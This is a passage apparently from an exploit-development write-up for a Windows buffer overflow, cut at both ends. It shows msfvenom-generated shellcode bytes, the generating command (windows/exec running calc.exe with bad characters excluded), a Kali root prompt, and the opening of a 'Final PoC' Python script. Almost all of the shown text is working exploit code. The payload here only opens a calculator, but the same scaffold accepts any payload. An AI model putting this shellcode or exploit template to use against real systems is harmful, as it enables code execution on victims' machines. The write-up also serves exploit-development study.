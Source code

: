 ```term_session
buf += b"\x70\x3f\x99\x33\x81\x6c\xd9\x52\x01\x6f\x0e\xb5\x38"
buf += b"\xa0\x43\xb4\x7d\xdd\xae\xe4\xd6\xa9\x1d\x19\x53\xe7"
buf += b"\x9d\x92\x2f\xe9\xa5\x47\xe7\x08\x87\xd9\x7c\x53\x07"
buf += b"\xdb\x51\xef\x0e\xc3\xb6\xca\xd9\x78\x0c\xa0\xdb\xa8"
buf += b"\x5d\x49\x77\x95\x52\xb8\x89\xd1\x54\x23\xfc\x2b\xa7"
buf += b"\xde\x07\xe8\xda\x04\x8d\xeb\x7c\xce\x35\xd0\x7d\x03"
buf += b"\xa3\x93\x71\xe8\xa7\xfc\x95\xef\x64\x77\xa1\x64\x8b"
buf += b"\x58\x20\x3e\xa8\x7c\x69\xe4\xd1\x25\xd7\x4b\xed\x36"
buf += b"\xb8\x34\x4b\x3c\x54\x20\xe6\x1f\x32\xb7\x74\x1a\x70"
buf += b"\xb7\x86\x25\x24\xd0\xb7\xae\xab\xa7\x47\x65\x88\x48"
buf += b"\xaa\xac\xe4\xe0\x73\x25\x45\x6d\x84\x93\x89\x88\x07"
buf += b"\x16\x71\x6f\x17\x53\x74\x2b\x9f\x8f\x04\x24\x4a\xb0"
buf += b"\xbb\x45\x5f\xd3\x5a\xd6\x03\x3a\xf9\x5e\xa1\x42"
root@kali:~# 
```
# EndGame

![](/assets/img/Findings2/21.png)

Final PoC:

```term_session
import struct

# msfvenom -p windows/exec CMD=calc.exe -f py -b "\x00\x0a" EXITFUNC=thread 
# Payload size: 220 bytes

buf =  b""
buf += b"\xbf\xb8\xc2\xd4\x1e\xdb\xc9\xd9\x74\x24\xf4\x5a\x33"
buf += b"\xc9\xb1\x31\x83\xc2\x04\x31\x7a\x0f\x03\x7a\xb7\x20"
buf += b"\x21\xe2\x2f\x26\xca\x1b\xaf\x47\x42\xfe\x9e\x47\x30"
buf += b"\x8a\xb0\x77\x32\xde\x3c\xf3\x16\xcb\xb7\x71\xbf\xfc"
buf += b"\x70\x3f\x99\x33\x81\x6c\xd9\x52\x01\x6f\x0e\xb5\x38"
buf += b"\xa0\x43\xb4\x7d\xdd\xae\xe4\xd6\xa9\x1d\x19\x53\xe7"
buf += b"\x9d\x92\x2f\xe9\xa5\x47\xe7\x08\x87\xd9\x7c\x53\x07"
buf += b"\xdb\x51\xef\x0e\xc3\xb6\xca\xd9\x78\x0c\xa0\xdb\xa8"
```